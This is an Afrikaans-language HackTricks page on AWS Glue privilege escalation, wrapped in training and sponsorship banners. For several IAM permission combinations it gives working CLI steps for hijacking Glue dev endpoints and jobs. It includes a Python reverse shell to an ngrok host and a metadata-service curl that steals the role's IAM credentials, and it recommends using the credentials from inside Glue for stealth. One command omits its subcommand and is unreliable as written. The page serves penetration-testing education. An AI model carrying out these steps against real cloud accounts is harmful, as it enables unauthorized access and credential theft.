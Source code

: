 # AWS - Glue Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gebruikers met hierdie toestemmings kan **'n nuwe AWS Glue ontwikkelings-eindpunt opstel**, **wat 'n bestaande diensrol toewysbaar deur Glue** met spesifieke toestemmings aan hierdie eindpunt.

Na die opstelling kan die **aanvaller SSH in die eindpunt se instansie**, en die IAM-akkrediteer van die toegewyde rol steel:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Vir stealth-doeleindes word dit aanbeveel om die IAM-akkrediteer van binne die Glue virtuele masjien te gebruik.

**Potensiële Impak:** Privesc na die glue diensrol wat gespesifiseer is.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gebruikers met hierdie toestemming kan **'n bestaande Glue ontwikkeling** eindpunt se SSH-sleutel **verander, wat SSH-toegang tot dit moontlik maak**. Dit stel die aanvaller in staat om opdragte uit te voer met die voorregte van die eindpunt se aangehegte rol:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potensiële Impak:** Privesc na die glue diensrol wat gebruik word.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Gebruikers met **`iam:PassRole`** gekombineer met ofwel **`glue:CreateJob` of `glue:UpdateJob`**, en ofwel **`glue:StartJobRun` of `glue:CreateTrigger`** kan **'n AWS Glue werk skep of opdateer**, enige **Glue diensrekening** aanheg, en die werk se uitvoering inisieer. Die werk se vermoëns sluit die uitvoering van arbitrêre Python-kode in, wat uitgebuit kan word om 'n omgekeerde shell te vestig. Hierdie omgekeerde shell kan dan gebruik word om die **IAM geloofsbriewe** van die rol wat aan die Glue werk geheg is, te eksfiltreer, wat kan lei tot potensiële ongeoorloofde toegang of aksies gebaseer op die toestemmings van daardie rol:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potensiële Impak:** Privesc na die glue diensrol gespesifiseer.

### `glue:UpdateJob`

Net met die opdatering toestemming kan 'n aanvaller die IAM Kredensiale van die reeds aangehegte rol steel.

**Potensiële Impak:** Privesc na die glue diensrol aangeheg.

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
